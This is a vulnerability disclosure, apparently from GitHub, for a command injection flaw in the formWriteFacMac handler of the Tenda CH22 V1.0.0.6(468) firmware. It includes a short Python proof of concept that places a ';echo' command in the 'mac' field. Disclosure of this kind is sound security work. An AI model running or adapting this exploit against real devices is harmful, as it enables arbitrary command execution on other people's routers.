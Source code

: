 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.


![Vulnerability Function2](20240830161624.png)


## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)```


![Vulnerability Function2](20240830161740.png)
